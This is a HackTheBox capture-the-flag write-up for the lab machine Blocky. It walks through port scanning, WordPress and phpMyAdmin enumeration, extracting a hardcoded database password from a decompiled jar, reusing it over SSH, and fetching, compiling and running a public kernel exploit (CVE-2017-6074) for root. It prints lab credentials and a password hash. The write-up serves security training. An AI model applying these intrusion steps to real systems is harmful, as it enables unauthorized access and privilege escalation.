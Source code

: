 ```yaml
---
layout: post
title: "HackTheBox - Blocky - CTF Notes"
tagline: "Owning Blocky on HackTheBox"
description: "The following writeup shows the process I used to capture the user and root flags on Blocky 10.10.10.37 @ HackTheBox.eu"
date:   2017-12-13
comments: true
image:
  feature: blog/2/feature.jpg
  hero: blog/2/header.jpg
  credit: Someone at Microsoft
  creditlink: https://minecraft.net/
tags: [ctf, hackthebox, labs, notes]
---
```


## Introduction
The following writeup shows the process I used to capture the user and root flags on Blocky 10.10.10.37 @ [HackTheBox.eu](https://hackthebox.eu)

This post essentially contains the field notes I took as I was working my way through the box. With that in mind, I don't really go into detail about the commands I use and this isn't really a proper writeup. I might come back and touch it up later or I might just leave this as is. ¯\\\_(ツ)_/¯

## Port Scanning
First off let's check what ports are open.

```shell_session
nmap 10.10.10.37
Starting Nmap 7.60 ( https://nmap.org )
Nmap scan report for 10.10.10.37
Host is up (0.18s latency).
Not shown: 996 filtered ports
PORT STATE SERVICE
21/tcp open ftp
22/tcp open ssh
80/tcp open http
8192/tcp closed sophos
Nmap done: 1 IP address (1 host up) scanned in 18.88 seconds
```
Cool, we've got ftp (21), ssh (22) and http (80)

## Identification
Let's take a quick look at the headers on the web server

```shell_session
curl -I 10.10.10.37
```

```http
HTTP/1.1 200 OK
Server: Apache/2.4.18 (Ubuntu)
Link: <http://10.10.10.37/index.php/wp-json/>; rel="https://api.w.org/"
Content-Type: text/html; charset=UTF-8
```
It’s wordpress!

View-source:http://10.10.10.37 reveals we are working with Wordpress version 4.8.0 and there are no obvious plugins. Might come back with WPScan later.

/authors shows one user, “Notch”

Version 4.8.0 is affected by [a handful of vulnerabilities](https://wpvulndb.com/wordpresses/48) which we will come back too if needed.

## Enumeration
Let's do some directory enumeration...

```shell_session
uniscan -q -u http://10.10.10.37/
```

```
####################################
# Uniscan project #
# http://uniscan.sourceforge.net/ #
####################################
V. 6.3
======================================================================
=============================
| Domain: http://10.10.10.37/
| Server: Apache/2.4.18 (Ubuntu)
| IP: 10.10.10.37
======================================================================
=============================
|
| Directory check:
| [+] CODE: 200 URL: http://10.10.10.37/phpmyadmin/
| [+] CODE: 200 URL: http://10.10.10.37/plugins/
| [+] CODE: 200 URL: http://10.10.10.37/wiki/
| [+] CODE: 200 URL: http://10.10.10.37/wp-admin/
======================================================================
=============================
======================================================================
=============================
HTML report saved in: report/10.10.10.37.html
```

## Further Identification
View-source:http://10.10.10.37/phpmyadmin reveals version string [4.5.4.1deb2ubuntu2](https://www.phpmyadmin.net/files/4.5.4.1/) which was released on 2016-01-29.

[CVE-2016-5734](https://www.exploit-db.com/exploits/40185/) Affects this version.

Gonna keep digging…

http://10.10.10.37/wiki
(development page, will enumerate later)

http://10.10.10.37/plugins/
Cute File Browser

http://10.10.10.37/plugins/files/
Two java files found

http://10.10.10.37/plugins/files/BlockyCore.jar

http://10.10.10.37/plugins/files/griefprevention-1.11.2-3.1.1.298.jar

```shell_session
jar -xf BlockyCore.jar
cd com/myfirstplugin/
Jad BlockyCore.class
```
Found:
```java
sqlHost = "localhost";
sqlUser = "root";
sqlPass = "8YsqfCTnvxAUeduzjNSXe22";
```

## Password Reuse

Check credentials on PHPMYAdmin.... We’re in!

Check password against other users seen in db

One user in wp_users

```sql
Notch $P$BiVoTj899ItS1EZnMhqeqVbrZI4Oq0/ notch notch@blockcraftfake.com
```

Testing sql pass on wordpress user failed, no pw reuse there.

Modifying user_pass or creating new wp user gives back-end access to WP, from there we could upload a shell as www-data.
Could also have used CVE-2016-5734 on PHPMyAdmin to get a shell.

Testing password over ssh

```shell_session
ssh root@10.10.10.37
```

Failed no pw reuse

```shell_session
ssh notch@10.10.10.37
```

total success

```shell_session
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)
* Documentation: https://help.ubuntu.com
* Management: https://landscape.canonical.com
* Support: https://ubuntu.com/advantage
7 packages can be updated.
7 updates are security updates.
Last login: Sun Oct 29 11:09:42 2017 from 10.10.14.13
```

## Privilege Escalation
At this point we have the user flag, now let's get that root flag.

```shell_session
notch@Blocky:~$ uname -r
4.4.0-62-generic
```


Kernel 4.4.0-62-generic is impacted by [CVE-2017-6074](https://www.cvedetails.com/cve/CVE-2017-6074/)

On local machine
```shell_session
wget https://raw.githubusercontent.com/xairy/kernel-exploits/master/CVE-2017-6074/poc.c
```

```shell_session
gcc poc.c -o pwn
```

Transfer file over to target

`./pwn` as `notch` or `www-data` will cause root

Edit: Upon reading [another writeup](https://gist.github.com/berzerk0/1a6270d3cacf30c3b5cff82c7f53bf4c) I realized I overlooked something. It seems exploiting CVE-2017-6074 was unnecessary as the user `notch` was actually an admin. Exploiting the above CVE would still have been useful if we had gotten a shell as `www-data` or another under privileged user.

## Summary

Blocky was a relatively easy system to pwn. Leaving credentials in the java file was a cool touch and is actually something I see often in my work engagements. This box featured a combination of plain-text credential storage, password reuse, and old software.

If you found this helpful, feel free to [give me a +1](https://www.hackthebox.eu/home/users/profile/14010) on HackTheBox.
